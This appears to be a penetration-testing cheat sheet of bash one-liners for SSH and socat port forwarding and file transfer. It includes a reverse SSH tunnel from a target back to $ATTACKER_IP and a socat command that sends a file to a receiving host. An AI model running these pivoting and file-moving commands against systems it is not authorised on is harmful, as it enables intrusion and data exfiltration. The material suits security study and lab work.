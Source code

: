 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```
Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```